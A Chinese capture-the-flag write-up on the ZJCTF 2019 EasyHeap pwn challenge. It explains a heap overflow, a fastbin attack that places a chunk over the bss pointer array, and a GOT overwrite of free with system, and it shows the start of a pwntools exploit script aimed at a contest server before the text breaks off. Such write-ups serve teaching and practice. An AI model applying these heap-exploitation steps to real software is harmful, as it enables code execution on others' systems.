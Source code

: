 ```yaml
---
title: buuctf-pwn write-ups (5)
date: 2023-02-28 22:08:00
categories:
- write-ups
- buuctf 系列
---
```

# buu039-[ZJCTF 2019]EasyHeap
一道堆题，经典的菜单，创建chunk（最多10个），编辑chunk（可以有任意长度的堆溢出），删除chunk（没有悬挂指针）。因此本题考察堆溢出。

由于本题环境在2.23，因此可以使用的堆漏洞方式比更高版本的更多。

```c
      if ( choice == 4869 )
      {
        if ( (unsigned __int64)magic <= 0x1305 )
        {
          puts("So sad !");
        }
        else
        {
          puts("Congrt !");
          l33t();
        }
      }
```
题目里面有这么一段，应该是只要能够把地址magic的位置修改成大于0x1305，然后选项填4869就能getshell。

**方法1：fastbin attack**
这应该是最简单的方法了。分配一些小的chunk，然后通过堆溢出直接修改chunk的fd指针。这个时候需要绕过一个检查：
```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
```
也就是会检查fastbin的chunk的size是否正确。我们可以错位分配fastbin chunk到bss段中的heaparray中，以实现对写入地址的完全控制。

![](1.png)
分配之后，heaparray[2]应该是0x6020B5-0x8的地址。修改magic之后调用l33t函数，但是发现没有这个文件。好家伙玩我是吧......

但是还有其他方法。我们现在控制了bss段，可以随意修改heaparray，从而实现任一地址任意长度写。因此可以修改got表，把exit或malloc等函数改成system的plt地址即可，但是由于要传入参数，所以考虑修改free.got。

exp：
```python
from pwn import *
context(arch='amd64', log_level='debug')

# io = process('./easyheap')
elf = ELF('./easyheap')
io = remote('node4.buuoj.cn', 28974)

def create(size, content):
	io.sendlineafter(b'Your choice :', b'1')
	io.sendlineafter(b'Size of Heap : ', str(size).encode())
	io.sendlineafter(b'Content of heap:', content)

def edit(index, size, content):
	io.sendlineafter(b'Your choice :', b'2')
```